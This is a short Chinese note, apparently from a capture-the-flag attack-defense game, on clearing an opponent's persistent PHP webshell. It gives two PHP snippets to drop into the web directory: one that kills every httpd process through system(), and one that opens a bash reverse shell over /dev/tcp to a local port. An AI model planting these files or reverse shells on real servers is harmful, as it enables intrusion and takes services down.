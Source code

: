 # 有两种办法
## 1.
给自己在 web 目录下写一个 php
```
<?php
system("kill `ps -ef | grep httpd | grep -v grep | awk '{print $2}'`");
```
如果碰到不死马就直接访问, 杀掉所有 httpd 进程, 因为权限不够, root 的不会被杀掉, 这个守护进程会自动再 fork 进程, 不用担心服务挂
## 2.
写个 php 给自己弹个 shell, 在 shell 里面 kill all, 这个更方便一点, 也更灵活
```
<?php
system("bash -i >& /dev/tcp/127.0.0.1/23333 0>&1");
```
emmm，重启当然也是一种办法，不过会扣不少分